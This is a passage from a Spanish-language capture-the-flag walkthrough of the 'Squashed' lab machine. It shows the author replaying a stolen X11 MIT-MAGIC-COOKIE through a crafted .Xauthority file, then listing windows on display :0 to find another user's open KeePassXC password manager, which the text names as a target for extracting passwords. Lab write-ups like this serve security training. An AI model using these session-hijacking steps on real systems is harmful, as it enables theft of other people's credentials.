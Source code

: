 ```bash
alex@squashed:/tmp$ echo 'AQAADHNxdWFzaGVkLmh0YgABMAASTUlULU1BR0lDLUNPT0tJRS0xABBZM0GBpjmxwg/HEO6G64Sl' | base64 -d > /tmp/.Xauthority
alex@squashed:/tmp$ ls -l .Xauthority 
-rw-r--r-- 1 alex alex 57 Feb 15 23:48 .Xauthority
alex@squashed:/tmp$ xxd .Xauthority 
00000000: 0100 000c 7371 7561 7368 6564 2e68 7462  ....squashed.htb
00000010: 0001 3000 124d 4954 2d4d 4147 4943 2d43  ..0..MIT-MAGIC-C
00000020: 4f4f 4b49 452d 3100 1059 3341 81a6 39b1  OOKIE-1..Y3A..9.
00000030: c20f c710 ee86 eb84 a5                   .........
```

Al exportar la variable de entorno **XAUTHORITY** para que apunte al archivo **/tmp/.Xauthority**, hemos configurado el sistema para que utilice las credenciales del archivo que replicamos. Esto permite que las aplicaciones gráficas, como **xauth** o cualquier aplicación X11, ahora utilicen ese archivo para autenticar al usuario **alex** en el servidor X11.

```bash
alex@squashed:/home/ross$ export XAUTHORITY=/tmp/.Xauthority
alex@squashed:/home/ross$ env
SHELL=bash
PWD=/home/ross
XAUTHORITY=/tmp/.Xauthority
```

Al ejecutar el comando `xwininfo -root -tree -display :0`, encontramos que una de las ventanas abiertas es **"Passwords - KeePassXC"**, que corresponde a la aplicación **KeePassXC**, una herramienta de gestión de contraseñas.

Esto indica que el usuario **ross** tiene abierta una ventana de KeePassXC, y es posible que contenga información sensible como contraseñas. Aprovechando que la aplicación está visible en el servidor X11, tenemos una posible vía para acceder a los datos guardados en ella.

Si conseguimos tomar control sobre la ventana de KeePassXC o interactuar con la sesión, podríamos extraer las contraseñas almacenadas en su base de datos.

```bash
alex@squashed:/tmp$ xwininfo -root -tree -display :0

xwininfo: Window id: 0x533 (the root window) (has no name)

  Root window id: 0x533 (the root window) (has no name)
  Parent window id: 0x0 (none)
     26 children:
     0x80000b "gnome-shell": ("gnome-shell" "Gnome-shell")  1x1+-200+-200  +-200+-200
        1 child:
        0x80000c (has no name): ()  1x1+-1+-1  +-201+-201
     0x800022 (has no name): ()  802x575+-1+26  +-1+26
        1 child:
        0x1e00006 "Passwords - KeePassXC": ("keepassxc" "keepassxc")  800x536+1+38  +0+64
           1 child:
           0x1e000fe "Qt NET_WM User Time Window": ()  1x1+-1+-1  +-1+63
     0x1e00008 "Qt Client Leader Window": ()  1x1+0+0  +0+0
     0x800017 (has no name): ()  1x1+-1+-1  +-1+-1
     0x2000001 "keepassxc": ("keepassxc" "Keepassxc")  10x10+10+10  +10+10
     0x1e00004 "Qt Selection Owner for keepassxc": ()  3x3+0+0  +0+0
     0x1800001 "evolution-alarm-notify": ("evolution-alarm-notify" "Evolution-alarm-notify")  10x10+10+10  +10+10
     0x1a00002 (has no name): ()  10x10+0+0  +0+0
     0x1600001 "gsd-wacom": ("gsd-wacom" "Gsd-wacom")  10x10+10+10  +10+10
     0x1c00001 "gsd-media-keys": ("gsd-media-keys" "Gsd-media-keys")  10x10+10+10  +10+10
     0x1a00001 "gsd-xsettings": ("gsd-xsettings" "Gsd-xsettings")  10x10+10+10  +10+10
     0x1200001 "gsd-keyboard": ("gsd-keyboard" "Gsd-keyboard")  10x10+10+10  +10+10
     0x1400001 "gsd-color": ("gsd-color" "Gsd-color")  10x10+10+10  +10+10
     0x1000001 "gsd-power": ("gsd-power" "Gsd-power")  10x10+10+10  +10+10
     0xe00003 "ibus-xim": ()  1x1+0+0  +0+0
        1 child:
```